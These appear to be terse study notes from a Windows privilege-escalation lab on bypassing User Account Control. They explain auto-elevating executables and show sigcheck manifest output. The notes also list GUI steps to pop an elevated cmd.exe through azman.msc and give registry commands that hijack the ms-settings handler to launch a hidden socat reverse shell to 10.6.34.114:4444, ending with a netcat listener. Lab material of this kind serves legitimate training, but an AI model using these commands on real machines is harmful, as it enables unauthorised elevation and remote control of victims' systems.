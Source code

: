 
##### UAC Process Hacker v2
1. run azman.msc
2. go to "Help"
3. Right click, View source.
4. In notepad, click "Open"
5. Make sure to change the file filter from ".txt" to "All Files"
6. Find cmd.exe in C:\\Windows\\System32
7. right click, open. Root


As mentioned before, some executables can auto-elevate, achieving high IL without any user intervention. This applies to most of the Control Panel's functionality and some executables provided with Windows.

For an application, some requirements need to be met to auto-elevate:

- The executable must be signed by the Windows Publisher
- The executable must be contained in a trusted directory, like `%SystemRoot%/System32/` or `%ProgramFiles%/`

Depending on the type of application, additional requirements may apply:

- Executable files (.exe) must declare the **autoElevate** element inside their manifests. To check a file's manifest, we can use **[sigcheck](https://docs.microsoft.com/en-us/sysinternals/downloads/sigcheck)**, a tool provided as part of the Sysinternals suite. You can find a copy of sigcheck on your machine on `C:\tools\` . If we check the manifest for msconfig.exe, we will find the autoElevate property:

Command Prompt

```shell-session
C:\tools\> sigcheck64.exe -m c:/windows/system32/msconfig.exe
...
<asmv3:application>
	<asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
		<dpiAware>true</dpiAware>
		<autoElevate>true</autoElevate>
	</asmv3:windowsSettings>
</asmv3:application>
```

- mmc.exe will auto elevate depending on the .msc snap-in that the user requests. Most of the .msc files included with Windows will auto elevate.
- Windows keeps an additional list of executables that auto elevate even when not requested in the manifest. This list includes pkgmgr.exe and spinstall.exe, for example.
- COM objects can also request auto-elevation by configuring some registry keys ([https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)).

We set the required registry values to associate the ms-settings class to a reverse shell. For your convenience, a copy of **socat** can be found on `c:\tools\socat\`. You can use the following commands to set the required registry keys from a standard command line:

Command Prompt

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.6.34.114:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.
```
**Execute program^**
start nc listener first.
get shell